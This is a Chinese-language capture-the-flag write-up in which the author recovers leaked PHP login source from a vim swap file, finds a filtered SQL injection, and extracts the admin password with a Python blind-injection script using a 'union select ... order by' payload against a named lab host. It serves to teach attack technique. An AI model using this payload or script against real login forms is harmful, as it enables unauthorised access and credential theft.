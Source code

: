 
#Web #SQL注入 #盲注 #目录扫描

![[Pasted image 20230602151806.png|500]]

---

尝试扫目录

![[Pasted image 20230602152103.png|700]]

能发现一个`index.php`的`swp`文件

```shell
curl 'http://111.74.9.131:18001/.index.php.swp' -o ~/.index.php.swp
vim -r ~/.index.php.swp
```

```php
<?php
//   error_reporting(0);
$dbhost = "db";
$dbuser = "root";
$dbpass = "root";
$db = "ctf";
$conn = mysqli_connect($dbhost, $dbuser, $dbpass, $db);
mysqli_set_charset($conn, "utf8");

/* sql
     create table `admin` (
        `id` int(10) not null primary key auto_increment,
        `user` varchar(50) not null ,
        `pass` varchar(50) not null
     );
  */
function filter($str)
{
    $filterlist = "/user|pass|where|case|when|like|regexp|into|limit|=|for|;|\(|\)/";
    if (preg_match($filterlist, strtolower($str))) {
        die("hacker!");
    }
    return $str;
}
$username = isset($_POST['user']) ? filter($_POST['user']) : die("please input username!");
$password = isset($_POST['pass']) ? filter($_POST['pass']) : die("please input password!");
$sql = "select * from admin where  user = '$username' and pass = '$password' ";
$res = $conn->query($sql);

if ($res->num_rows > 0) {
    $row = $res->fetch_assoc();
    if ($row['id']) {
        echo $row['user'];
    }
} else {
    echo "keep on !";
}
/*
   提交的flag格式为flag{小写字母数字组合}
 */
```

是SQL注入，但是过滤掉了小括号

猜测flag是admin的密码，于是尝试使用`union select`结合`order by`进行盲注

```python
import sys
import requests

# curl 'http://111.74.9.131:18001' --data "user=admin' union select 1,2,'4ea' order by 3#" --data "pass=123"
url = 'http://111.74.9.131:18001'

template = {'user': "admin' union select 1,2,'%s' order by 3#", 'pass': '123'}

# lower case & numbers
chars = '0123456789abcdefghijklmnopqrstuvwxyz'

result = ''

while True:
    for i in range(0, len(chars)):
        payload = template.copy()
        payload['user'] = payload['user'] % (result + chars[i])
        r = requests.post(url, data=payload)
        if 'admin' in r.text:
            result += chars[i - 1]
            print(chars[i - 1], end='')
            sys.stdout.flush()
            break
```

![[Pasted image 20230602153237.png|800]]

出来的结果是满足比admin的password小的值，因此推出（把四周的值都试一遍）flag为`flag{4e9b954bc4bd3cd5ba6ea9335fbe4b41}`
